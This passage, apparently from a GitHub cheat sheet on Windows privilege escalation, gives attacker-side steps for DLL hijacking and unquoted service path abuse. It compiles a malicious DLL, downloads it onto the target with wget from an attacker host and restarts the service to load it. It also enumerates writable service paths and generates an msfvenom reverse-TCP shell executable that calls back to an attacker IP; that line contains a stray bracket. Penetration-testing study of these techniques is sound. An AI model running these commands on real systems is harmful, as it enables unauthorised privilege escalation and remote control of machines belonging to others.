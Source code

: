 If the current user permit to write to any folder in the search order, we can have a possible DLL hijacking vulnerability.

**Finding DLL Hijacking vulnerabilities**

Tool : Process Monitor (ProcMon)

**Generate DLL file**

```bash
# Install mingw compiler
$ apt install gcc-mingw-w64-x86-64

# Generate DLL file
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

# Download DLL file on the target
$ wget -O <file_name>.dll <attacker_ip>:<port>/<file_name>.dll
```

```powershell
# Stop and start dllsvc
$ sc stop dllsvc & sc start dllsvc
```

### Unquoted service path 

**Conditions :**

1. Being able to write to a folder on the path.
2. Being able to restart the service.

**Services enumeration**

```powershell
$ wmic service get name,displayname,pathname,startmode
```

**Check binary path**

```powershell
$ sc qc <service>
# Example
$ sc qc unquotedsvc
```

**Privilege check on the path**

```powershell
.\accesschk64.exe /accepteula -uwdq "<path>"
# Example
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```

**Generate an executable file**

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[<attacker_ip> LPORT=<port> -f exe > <executable_name>.exe
```
